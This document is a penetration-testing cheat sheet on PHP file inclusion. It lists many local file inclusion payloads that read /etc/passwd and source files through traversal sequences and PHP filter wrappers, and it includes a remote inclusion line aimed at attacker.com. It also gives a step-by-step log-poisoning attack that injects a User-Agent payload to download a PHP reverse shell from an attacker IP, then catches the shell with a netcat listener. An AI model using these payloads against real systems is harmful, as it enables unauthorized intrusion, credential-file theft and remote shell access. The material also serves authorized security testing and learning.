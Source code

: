 ```yaml
---
title: File Inclusion
desc: 
tags: [Burp, LFI, Netcat, Reverse Shell, RFI, Web]
alts: [Directory-Traversal, Reverse-Shell]
render_with_liquid: false
---
```


## Local File Inclusion (LFI)

```sh
/index.php?page=/etc/passwd
/index.php?page=../../../../etc/passwd
/index.php?page=../../../../../etc/passwd
/index.php?page=..//..//..//..//..//etc/passwd
/index.php?page=../../../../../../../../../../../../../../etc/passwd
/index.php?page=..%5c..%5c..%5c..%5cetc/passwd
/index.php?page=..%252f..%252f..%252f..%252fetc/passwd
/index.php?page=/etc/passwd%00
/index.php?page=/etc/passwd%00.inc
/index.php?page=/etc/passwd%00.php
/index.php?page=http://localhost/index
/index.php?page=http:%5c%5cindex
/index.php?page=http:%252f%252findex
/index.php?page=somedir/../../../../etc/passwd&ext=

# PHP Filter
/index.php?page=php://filter/resource=/etc/passwd
/index.php?page=php://filter/read=string.rot13/resource=index.php
/index.php?page=php://filter/convert.base64-encode/resource=index.php
/index.php?page=pHp://filter/convert.base64-encode/resource=index.php
/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
/index.php?page=data://text/plain,<?php echo base64_encode(file_get_contents(“index.php”)); ?>

# Windows
/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
```

<br />

## Remote File Inclusion (RFI)

```
/index.php?page=//attacker.com/exploit
```

<br />

## Log Poisoning

1. **Check if You Can Access the Apache Log File**

    ```sh
    # Debian, Ubuntu Linux
    /?page=/var/log/apache/access.log
    /?page=../../../../var/log/apache/access.log
    /?page=/var/log/apache2/access.log
    /?page=../../../../var/log/apache2/access.log
    # FreeBSD Linux
    /?page=/var/log/httpd-access.log
    /?page=../../../../var/log/httpd-access.log
    # CentOS, Fedora, RedHat Linux
    /?page=/var/log/httpd/access_log
    /?page=../../../../var/log/httpd/access_log
    ```

2. **Prepare the Payload for PHP Reverse Shell**

    ```sh
    wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php

    # Edit the values in the payload
    $ip = '<attacker-ip>';
    $port = 4444;
    ```

3. **Open Web Server in Your Local Machine**

    By doing so, 

    ```sh
    python -m http.server 80
    ```

4. **Inject PHP Payload in the User-Agent**

    Send the GET Request with abusing the User-Agent.  
    The payload can be uploaded to the "/shell.php" of the target website.

    ```
    GET / HTTP/1.1
    ...
    User-Agent: <?php file_put_contents('shell.php', file_get_contents('http://<attacker-ip>/shell.php'));  ?>
    ```

5. **Apply the Injection**

    To do so, refresh the page "/index.php?page=../../../../var/log/apache2/access.log".

6. **Open Listener for Reverse Shell**

    In you local machine, open the listener.  
    You need to specify the port which you set the section 2.

    ```sh
    nc -lvnp 4444
    ```

7. **Gain Access to Shell**

    Access to "/shell.php" of the target website.  
    If it goes well, you can get a shell.